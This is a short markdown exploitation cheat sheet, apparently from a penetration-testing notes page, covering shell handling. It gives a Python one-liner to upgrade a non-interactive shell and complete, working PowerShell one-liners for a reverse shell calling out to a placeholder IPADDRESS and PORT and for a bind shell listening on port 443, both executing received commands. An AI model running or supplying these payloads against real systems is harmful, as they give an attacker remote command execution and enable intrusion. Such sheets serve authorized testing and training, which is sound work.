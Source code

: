 ```yaml
---
title: "Exploitation CheatSheet"
author: "Me"
date: "January 11, 2022"
output: html_document
---
```


# Exploitation CheatSheet
{:.no_toc}


1. TOC
{:toc}
{:style="color:black; font-size: 150%;"}

# File transfers

# Shells

Upgrading a non-interactive shell

## Python
Most common method on Linux hosts, as there is usually a python interpreter installed.
````
python -c 'import pty;pty.spawn("/bin/bash")'
````

## Powershell reverse shell (one-liner)

````
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('IPADDRESS',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
`````

## Powershell bind shell (one-liner)

````
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
`````
The System.Net.Sockets.TcpListener requires 2 arguments: the address to listen on and the port. By providing 0.0.0.0 as the local address, the bind shell will be available on all IP addresses on the system.

